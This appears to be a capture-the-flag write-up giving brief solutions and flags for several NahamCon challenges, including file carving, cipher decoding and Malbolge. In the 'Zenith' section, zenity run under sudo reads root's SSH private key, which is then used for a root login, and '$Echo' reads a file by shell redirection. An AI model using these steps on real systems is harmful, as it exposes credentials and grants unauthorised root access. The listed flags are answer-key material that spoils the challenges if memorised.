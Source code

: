 binwalk the file and extract: `binwalk --dd='.*' pollex -e`
`flag{65c34a1ec121a286600ddd48fe36bc00}`

## Chicken Wings

`WingDing` font: `♐●♋♑❀♏📁🖮🖲📂♍♏⌛🖰♐🖮📂🖰📂🖰🖰♍📁🗏🖮🖰♌📂♍📁♋🗏♌♎♍🖲♏❝`
`flag{e0791ce68f718188c0378b1c0a3bdc9e}`

## Eight Circle

`Malbolge ... eighth circle of hell in Dante's Inferno`
Malbolge is a programmiug language, run it [here](http://www.malbolge.doleczek.pl/):
`flag{bf201f669b8c4adf8b91f09165ec8c5c}`

## Zenith

`zenity` has sudo privileges
Log in with X11 forwarding: `ssh -Y -p 31900 user@challenge.nahamcon.com`
show roots SSH key: `sudo /usr/bin/zenity --text-info --filename=/root/.ssh/id_rsa`
copied and logged in as root: `ssh -p 31900 -i root.priv root@challenge.nahamcon.com`
I knew `get_flag` existing from using the file browser but now that we're root it doesn't really matter.
`chmod +x get_flag; ./get_flag`

## $Echo

bash redirection for the flag: `<../flag.txt`
`flag{1beadaf44586ea4aba2ea9a00c5b6d91}`

## Google Play

Text was hidden in the PDF
`flag{a0a6cb3b4bc98bf2a34b7aed76aebf53}`

## Car Keys

got `foak{6f980c0101c8aa361977cac06508a3de}` from [here](https://www.dcode.fr/keyboard-change-cipher) changed `foak` to `flag`

## Veebee

`flag{f805593d933f5433f2a04f082f400d8c}`

## Mission - Employees

### Leo Rison - Development - Path1

#### Stage 1
